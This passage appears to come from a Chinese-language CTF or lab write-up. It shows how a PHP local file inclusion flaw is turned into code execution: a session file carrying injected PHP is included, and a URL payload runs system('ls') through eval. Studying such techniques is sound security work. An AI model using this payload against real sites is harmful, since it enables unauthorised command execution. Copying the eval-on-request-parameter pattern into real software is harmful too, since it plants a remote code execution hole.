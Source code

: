 ![](assets/1-13.png)
session 的內容會存在 ```/tmp/sess_{session ID}``` 檔案裡\
將 session ID 複製起來，連到 ```/?page=/tmp/sess_dd754bb0c668055772fb34d6829a3c76```
由於 session 檔案被 include 的緣故，而且 session 檔案裡有部分內容包含剛才輸入的 php 程式碼\
因此輸入的 php 程式碼就會成功被執行
![](assets/1-14.png)
不過錯誤訊息會說沒有 test 這個 key，因為剛才給他的 ```$_GET['test']``` 會去拿 test 的參數值\
給它 test 的值後，由於 ```echo eval($_GET['test']);``` 的關係\
會先被傳進 eval function 裡呼叫，然後印出結果\
因此這邊 test 參數只要給 ```system('ls');```
就會印出 ```system('ls');``` 的執行結果，相當於在 shell 裡執行 ```ls``` 指令
```php
/?page=/tmp/sess_dd754bb0c668055772fb34d6829a3c76&test=system('ls');
```